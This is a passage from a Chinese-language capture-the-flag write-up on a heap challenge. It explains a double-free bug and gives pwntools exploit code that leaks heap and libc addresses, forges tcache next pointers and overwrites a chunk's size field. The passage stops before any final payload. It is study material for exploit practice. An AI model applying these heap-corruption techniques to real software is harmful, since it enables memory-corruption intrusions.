    ![image-20240728113314547](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407281216429.png)![image-20240728113440681](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407281134775.png)

2. 结合看add函数和delete函数，发现公用bool，存在double free：

   ![](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407281134775.png)

   ![image-20240728113552227](C:\Users\BKBQWQ\AppData\Roaming\Typora\typora-user-images\image-20240728113552227.png)

### 利用：

1. 先double free泄漏堆地址（低4字节地址）：

   ```python
   #泄漏堆地址
   add(1,str(int("0",16)))
   add(1,str(int("FFFF",16)))
   # 直接free6次，后面伪造next还要使用
   for i in range(6):
       free(1)
       add(2,str(int("0",16)))
   show(1)
   p.recvuntil(b"number :")
   heap_addr = eval(p.recvuntil(b"\n")[:-1])&0xfffff000
   success("heap_addr ==> " + hex(heap_addr))
   ```

   ![image-20240728113917327](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407281139253.png)

2. 继续double free，修改next指针，分别指向chunk1的头和next指针位置：

   ```python
   #伪造next指针 进而修改size并释放
   for i in range(3):
       free(2)
       add(1,str(heap_addr+0x290))
   add(2,str(heap_addr+0x250))
   add(1,str(heap_addr+0x260))		#使用前面free的chunk30，修改其next指针
   
   #修改size字段
   add(2,str(int("0",16)))
   add(2,str(int("101",16)))
   add(1,str(int("0",16)))
   add(1,str(int("0",16)))
   
   #填满tcache
   for i in range(7):
       free(1)
       add(2,str(heap_addr+0x260))
   free(1)
   show(1)
   
   #泄漏libc低4位地址
   p.recvuntil(b"number :")
   addr = (eval(p.recvuntil(b"\n")[:-1]))
   success("addr ==> " + hex(addr))
   success("main_arena_unsortbin_addr==>"+hex(addr))
   main_arena_offset = libc.symbols["__malloc_hook"]+0x10
   success("main_arena_offset==>"+hex(main_arena_offset))
   libc_base = addr-(main_arena_offset+0x60)
   success("libc_addr==>"+hex(libc_base))
   IO_file_stdin_addr = libc.sym['_IO_2_1_stdin_'] + 0x70 + libc_base
   success("IO_file_stdin_addr==>"+hex(IO_file_stdin_addr))
   ```
